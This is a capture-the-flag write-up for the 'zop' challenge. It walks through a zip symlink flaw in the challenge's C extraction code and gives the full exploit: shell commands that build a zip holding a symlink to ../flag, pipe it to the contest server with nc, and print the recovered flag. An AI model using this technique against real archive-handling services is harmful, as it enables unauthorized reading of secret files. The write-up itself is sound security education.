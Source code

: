 # zop \[464 Points] (16 Solves)
```
ZAP ZIP ZOP ZAB ZIB ZOB... im just trying to overwhelm you with useless code.

nc 172.210.129.230 1349 
```
Attached is [zop][./zop]
---

**TL;DR:** \
A **ZIP Symlink Vulnerability**. The server reads a base64 encoded zip file and
prints the content of the files. \
We can create a zip with a symlink `../flag` and upload it to the server.
```sh
ln -s ../flag file
zip --symlink zip.zip ./file
base64 -w 0 zip.zip | nc 172.210.129.230 1349
```

## Writeup

We are given a set of source codes for the service, which contains a bunch
of code implementing base64 and zip parsing.

Reading the `pkzip.c` file, which parses the zip we find this code
```c
filename = malloc(strlen("content/") + lfh->fname_len + 1);
memcpy(filename, "content/", strlen("content/") + 1);
memcpy(filename + strlen("content/"), lfh->filename, strlen(lfh->filename));
```

It would allow us to write out of bounds by zipping something like `../file`
however we need to read `../flag`. (The `..` because as you can see the files
are places in `content/`). \
Well, this sounds like a task for a symlink. Let's look at the code
```c
fd = open(filename, O_WRONLY | O_CREAT, 0644);
if (fd < 0){
    printf("%s :%m\n", lfh->filename);
    return (NULL);
} else {
    write(fd, content, lfh->uncompressed_size);
    close(fd);
}
```

It doesn't look like there's anything stopping us from unzipping a symlink. \
Then main just reads all of the returned files
```c
files = extract_zip(zip_file, read_size);
// printing the content of the files
while (files[++i] != NULL){
    printf("-- %s \n", files[i]);
    fd = open(files[i], O_RDONLY, 0644);
    // - snip -
    read(fd, zip_file, read_size);
    zip_file[read_size] = '\0';
    printf("------------------------------------------------------------------------\n\n");
    printf("%s\n", zip_file);
    printf("------------------------------------------------------------------------\n\n");
}
```

After create the zip file with the symlink and sending it to the server,
we get the flag
```sh
$ ln -s ../flag file
$ zip --symlink zip.zip ./file
$ base64 -w 0 zip.zip | nc 172.210.129.230 1349

include your zip file (base64)>> UEsDBAoAAAAAAJxMyFh5zQKiCwAAAAsAAAAEABwAZmlsZVVUCQADB/xjZgf8Y2Z1eAsAAQToAwAABOkDAAAuLi9mbGFnLnR4dFBLAQIeAwoAAAAAAJxMyFh5zQKiCwAAAAsAAAAEABgAAAAAAAAAAAD/oQAAAABmaWxlVVQFAAMH/GNmdXgLAAEE6AMAAATpAwAAUEsFBgAAAAABAAEASgAAAEkAAAAAAA==
-- content/file 
------------------------------------------------------------------------

AKASEC{I7_wa5_700_0BVi0u5_ri9H7?}

------------------------------------------------------------------------
```

And now I will remind you that only 16 teams out of the almost 700 participating (including us) solved it.
Yeah.

**Flag:** `AKASEC{I7_wa5_700_0BVi0u5_ri9H7?}`
